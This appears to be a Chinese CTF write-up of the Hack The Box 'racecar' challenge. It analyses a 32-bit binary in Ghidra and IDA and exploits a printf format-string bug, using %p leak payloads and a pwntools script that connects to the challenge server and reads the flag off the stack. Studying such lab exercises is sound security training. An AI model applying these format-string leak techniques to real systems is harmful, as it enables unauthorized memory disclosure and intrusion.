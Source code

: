 ﻿题目网址：
```
https://app.hackthebox.com/challenges/racecar
```
![在这里插入图片描述](https://img-blog.csdnimg.cn/42c943d4118a4f5199e13dfe22f96cc6.png)


解压密码为hackthebox

# 文件信息收集
```
file racecar
```

![在这里插入图片描述](https://img-blog.csdnimg.cn/87ba14c50f964b0c8009fe002d86905b.png)

这是一个32位的程序，动态链接的

```
checksec vuln
```
![在这里插入图片描述](https://img-blog.csdnimg.cn/54f06ea2b2b0464cadcd923d32725a9f.png)

防护都开着的，从上到下依次是
```
32位程序
全部RELRO
开启栈保护
启用数据执行防护
程序的内存空间随机化
```
# 静态分析
用ghidra打开程序，按下键盘的i键，选择程序

![在这里插入图片描述](https://img-blog.csdnimg.cn/6f0c1f56654d414cad549f8ee89df83b.png)

双击启动，然后都是默认即可

![在这里插入图片描述](https://img-blog.csdnimg.cn/6a64ddbdb6ee4178b1ca02cd9f9994b4.png)

![在这里插入图片描述](https://img-blog.csdnimg.cn/243dbb45bef14a588769cc18f5b324bc.png)

回到终端，先运行程序，搞清楚程序的界面

![在这里插入图片描述](https://img-blog.csdnimg.cn/467c2625672940abb1287b0163eeb652.png)
```
nc 46.101.77.44 30441
```

![在这里插入图片描述](https://img-blog.csdnimg.cn/9addba564901476682eb58d9e098db88.png)


比较常见的pwn题目，我第一个想到的漏洞是格式化字符串漏洞，回到ghidra，继续分析，这程序的函数还挺多，在car_menu内找到了关键的地方



![在这里插入图片描述](https://img-blog.csdnimg.cn/133af4dc4d93485c9590777cd445b970.png)
```
  if (((iVar1 == 1) && (iVar2 < iVar3)) || ((iVar1 == 2 && (iVar3 < iVar2)))) {
    printf("%s\n\n[+] You won the race!! You get 100 coins!\n",&DAT_00011540);
    coins = coins + 100;
    puVar5 = &DAT_00011538;
    printf("[+] Current coins: [%d]%s\n",coins,&DAT_00011538);
    printf("\n[!] Do you have anything to say to the press after your big victory?\n> %s",
           &DAT_000119de);
    __format = (char *)malloc(0x171);
    __stream = fopen("flag.txt","r");
    if (__stream == (FILE *)0x0) {
      printf("%s[-] Could not open flag.txt. Please contact the creator.\n",&DAT_00011548,puVar5);
                    /* WARNING: Subroutine does not return */
      exit(0x69);
    }
    fgets(local_3c,0x2c,__stream);
    read(0,__format,0x170);
    puts(
        "\n\x1b[3mThe Man, the Myth, the Legend! The grand winner of the race wants the whole world  to know this: \x1b[0m"
        );
    printf(__format);
  }
```

程序在这读取了flag文件里的内容，还读取了我们输入的内容并输出，我们可以尝试泄露栈中的数据，首先我们需要到Do you have anything to say to the press after your big victory?\n>字符串的位置

![在这里插入图片描述](https://img-blog.csdnimg.cn/be61834c1b91473889c30d395bca141e.png)

然后尝试泄露堆栈里的内容
```
AAAAAAAA %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p % p %p %p %p
```
![在这里插入图片描述](https://img-blog.csdnimg.cn/643dedbfc2ee4cd29b90cbfda44054dd.png)

泄露了很多东西，但是我们输入的AAAAAAAA字符串的数据没有泄露，然后我重新看了一下汇编代码

![在这里插入图片描述](https://img-blog.csdnimg.cn/08bf336e07f849a98bbb0577225197dc.png)

![在这里插入图片描述](https://img-blog.csdnimg.cn/6f237bddcedf4996aca004abee717bd0.png)

因为我们的输入存储在char *__format中，现在我们需要遍历堆栈，查找__format的偏移量
```
%数字$s
```

![在这里插入图片描述](https://img-blog.csdnimg.cn/8b9584737fc44b60ba9f1d3da4d33acd.png)

在我们输入到10的时候，程序返回*__format指针的内容，也就是我们输入的内容，然后我用ida继续分析程序的汇编代码，因为ghidra在深度分析时，多多少少有点问题

![在这里插入图片描述](https://img-blog.csdnimg.cn/7d8f8b7c8c3845ac84142ab8042a53bc.png)



然后我把这些函数改一个名称

![在这里插入图片描述](https://img-blog.csdnimg.cn/af7e54b9613248ffb44ab98eb8a5a6fd.png)

可以看到，flag的地方文件描述符(fd)之后
# pwn
现在写一个脚本来泄露flag
```
from pwn import *
 
offset_start_flag = 12
len_of_flag = 44
offset_end_flag = offset_start_flag + 11
 
 
formatstring = ""
 
for i in range(offset_start_flag, offset_end_flag):
    formatstring += "%"+str(i)+"$p "
 
 
r = remote("46.101.77.44", 30441)
 
r.sendlineafter("Name: ", "a")
r.sendlineafter("Nickname: ", "a")
r.sendlineafter("> ", "2")
r.sendlineafter("> ", "2")
r.sendlineafter("> ", "1")
 
r.sendlineafter("> ", formatstring)
r.recv()
response = r.recv()
 
# Format output
preflag = (response.decode("utf-8").split("m\n"))[1]
preflag = preflag.split()
 
flag = ""
for hexdecimal in preflag:
    flag += p32(int(hexdecimal, base=16)).decode("utf-8")
 
print(flag)
```
![在这里插入图片描述](https://img-blog.csdnimg.cn/8108aa52ee4645cd89eccd649614df63.png)
成功获得flag
